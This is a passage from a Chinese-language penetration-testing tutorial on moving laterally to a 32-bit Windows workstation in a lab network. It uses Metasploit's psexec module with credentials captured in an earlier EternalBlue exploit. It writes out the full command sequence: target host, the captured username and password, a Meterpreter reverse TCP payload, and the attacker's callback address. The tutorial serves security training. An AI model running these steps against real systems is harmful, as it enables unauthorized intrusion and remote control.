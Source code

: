 # 利用 32 位系统

在之前的部分中，我们使用标准的 EternalBlue 漏洞攻击了 64 位机器。现在让我们使用`psexec`模块来妥协 32 位系统。我们使用这个模块，因为我们从上次的利用中收集了凭据。这次我们要攻击网络上的一个工作站。工作站通常被很多不同的人使用，所以这台机器上应该有很多存储的凭据。我们拥有的凭据越多，我们的访问权限就越大。要使用这个模块，请输入以下内容：

```
use exploit/windows/smb/psexec
show options # To see the module's options.  
```

我们需要加载与之前相同的选项，但我们将攻击`172.16.42.173 \\WIN7-01`：

```
set RHOST 172.16.42.173 # Set the victim host.
set SMBDomain LAB1 # Set the domain.
set SMBUser fflintstone # The captured username
set SMBPass CatKeeper! # The captured clear text credentials (This can be a hash!)
show options # To check your settings.  
```

接下来，我们需要选择有效载荷，因此运行以下命令以查看可用的有效载荷：

```
show payloads  
```

在上一个利用中，当我们运行此命令时，我们只看到 64 位有效载荷。这次，我们看到可以选择 32 位和 64 位有效载荷。WIN7-01 是 32 位的，所以我们需要选择正确的有效载荷：

```
set PAYLOAD windows/meterpreter/reverse_tcp 
```

您会注意到这是相同类型的反向 TCP 有效载荷，但在其命令行中不显示 x64。这是 32 位系统的有效载荷。

如果您之前没有全局设置`LHOST`（您的 Kali 机器），现在需要设置它：

```
set LHOST 172.16.42.140 # This sets the local host. Use setg to set this value globally. 
```

**黑客提示**：

Metasploit 将自动尝试设置`LHOST`接口以进行利用。如果 Kali 机器连接到两个或更多网络，这可能会导致问题。利用处理程序可能连接到错误的网络，导致利用失败。通常，在运行 Metasploit 时，进入我的工作区后，我会全局设置`LHOST`接口，使用`setg`全局选项设置到本地主机。

再次运行`show options`命令，我们可以看到攻击远程主机的正确设置：

![](img/d836e7c0-fc90-4767-ad06-dbfaa908be3f.png)
